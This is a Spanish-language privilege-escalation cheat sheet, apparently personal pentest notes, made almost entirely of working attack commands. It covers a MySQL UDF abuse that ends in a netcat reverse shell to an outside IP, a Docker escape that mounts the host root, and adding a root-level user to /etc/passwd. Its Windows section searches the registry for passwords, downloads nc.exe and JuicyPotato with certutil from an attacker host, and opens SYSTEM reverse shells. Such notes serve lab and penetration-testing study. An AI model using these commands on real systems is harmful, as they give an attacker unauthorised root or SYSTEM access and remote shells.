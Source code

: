 ### Si mysql se esta ejecutando como root
```
locate lib_mysqludf_sys_64.so

Subir dicho archivo

1. login mysql
2. use mysql;
3. create table mario(line blob);
4. insert into mario values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
5. select * from mario into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
6.  select sys_exec('nc -e /bin/sh 192.168.49.235 22');
```
### Docker escape
```
docker images
docker run -it -v /:/host/ <IMAGE ID> chroot /host/ bash              
```
Si tenemos permiso para escribir enm /etc/passwd
```
crear contrasena con openssl
 openssl passwd -1 -salt ignite mario123
 luego anadir esta linea al /etc/passwd
 mario:$1$ignite$tX4GTN3beMcoVKmIGlkIC0:0:0:root:/root:/bin/bash
su mario
mario123
```
## Windows Priv esc
### Win Check List
```
[Environment]::Is64BitProcess
whoami /priv
whoami /all
net user <USUARIO>
AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Buscar contraseñas
reg query HKLM /f pass /t REG_SZ /s
```

### SeImpersonatePrivilege  SeAssignPrimaryToken Enabled 
```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
certutil.exe -f -urlcache -split http://10.10.14.18/nc.exe nc.exe
certutil.exe -f -urlcache -split http://10.10.14.18/JuicyPotato.exe JuicyPotato.exe

.\JuicyPotato.exe -t * -l 1338 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\mario\nc.exe -e cmd 10.10.14.18 3001"

si da error cambiar CLSID

systeminfo -> buscar os -> OS Name:  Microsoft Windows 10 Pro 
 https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
 
 .\JuicyPotato.exe -t * -l 1338 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\mario\nc.exe -e cmd 10.10.10.19 3002" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

windows server 2019
https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

windows 2003, xp
https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/
```